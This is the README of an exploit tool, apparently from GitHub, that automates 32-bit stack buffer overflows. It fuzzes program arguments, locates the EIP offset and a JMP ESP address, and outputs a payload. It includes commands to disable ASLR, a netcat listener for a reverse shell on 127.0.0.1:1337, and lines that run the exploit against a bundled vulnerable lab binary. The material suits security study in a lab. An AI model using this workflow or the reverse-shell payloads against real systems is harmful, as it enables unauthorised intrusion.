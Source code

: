 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions.

Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payload vulnerable
```

Example Output:
```sh
[-] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[+] python -c 'print("\x41\x41\...\xcd\x80\x00")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41\x41...\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payload vulnerable)
```
